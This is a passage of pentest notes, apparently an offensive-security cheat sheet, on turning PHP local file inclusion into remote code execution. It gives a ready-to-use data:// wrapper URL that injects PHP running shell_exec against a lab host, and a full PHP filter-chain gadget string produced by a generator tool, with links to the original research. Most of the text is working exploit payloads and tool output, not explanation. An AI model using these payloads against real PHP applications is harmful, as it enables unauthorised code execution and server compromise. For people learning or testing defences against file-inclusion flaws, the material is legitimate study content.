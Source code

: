 ```php
http://10.11.0.22/menu.php?file=data:text/plain,<?php echo shell_exec("dir") ?>
```

#### LFI2RCE using PHP filters chain

>[!tldr]
>LFI2RCE using wrappers without including any file [^1]

[^1]: https://gist.github.com/loknop/b27422d355ea1fd0d90d6dbc1e278d4d

Original research: https://www.synacktiv.com/publications/php-filters-chain-what-is-it-and-how-to-use-it.html
PHP filter chain generator: https://github.com/synacktiv/php_filter_chain_generator

```bash
$ python3 php_filter_chain_generator.py --chain '<?php phpinfo(); ?>  '
[+] The following gadget chain will generate the following code : <?php phpinfo(); ?>   (base64 value: PD9waHAgcGhwaW5mbygpOyA/PiAg)
php://filter/convert.iconv.UTF8.CSISO2022KR|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.8859_3.UTF16|convert.iconv.863.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.DEC.UTF-16|convert.iconv.ISO8859-9.ISO_6937-2|convert.iconv.UTF16.GB13000|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.IBM869.UTF16|convert.iconv.L3.CSISO90|convert.iconv.UCS2.UTF-8|convert.iconv.CSISOLATIN6.UCS-4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.8859_3.UTF16|convert.iconv.863.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.851.UTF-16|convert.iconv.L1.T.618BIT|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSA_T500.UTF-32|convert.iconv.CP857.ISO-2022-JP-3|convert.iconv.ISO2022JP2.CP775|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.IBM891.CSUNICODE|convert.iconv.ISO8859-14.ISO6937|convert.iconv.BIG-FIVE.UCS-4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.851.UTF-16|convert.iconv.L1.T.618BIT|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.iconv.UCS-2.OSF00030010|convert.iconv.CSIBM1008.UTF32BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.CP1163.CSA_T500|convert.iconv.UCS-2.MSCP949|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UTF16.EUCTW|convert.iconv.8859_3.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF32|convert.iconv.L6.UCS-2|convert.iconv.UTF-16LE.T.61-8BIT|convert.iconv.865.UCS-4LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.MAC.UTF16|convert.iconv.L8.UTF16BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSGB2312.UTF-32|convert.iconv.IBM-1161.IBM932|convert.iconv.GB13000.UTF16BE|convert.iconv.864.UTF-32LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L4.UTF32|convert.iconv.CP1250.UCS-2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.8859_3.UTF16|convert.iconv.863.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF16|convert.iconv.ISO6937.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF32|convert.iconv.L6.UCS-2|convert.iconv.UTF-16LE.T.61-8BIT|convert.iconv.865.UCS-4LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.MAC.UTF16|convert.iconv.L8.UTF16BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSIBM1161.UNICODE|convert.iconv.ISO-IR-156.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.IBM932.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.base64-decode/resource=php://temp

$ php -r "echo file_get_contents('php://filter/convert.iconv....');"
```

[^pearcmd]: [Clever use of `pearcmd.php`](https://www.leavesongs.com/PENETRATION/docker-php-include-getshell.html#0x06-pearcmdphp)
[^video]: [Website Vulnerabilities to Fully Hacked Server](https://www.youtube.com/watch?v=yq2rq50IMSQ&ab_channel=JohnHammond)
[^2]: [PHP FIlter Chains: File Read From Error-based oracle](https://www.synacktiv.com/en/publications/php-filter-chains-file-read-from-error-based-oracle); www.synacktiv.com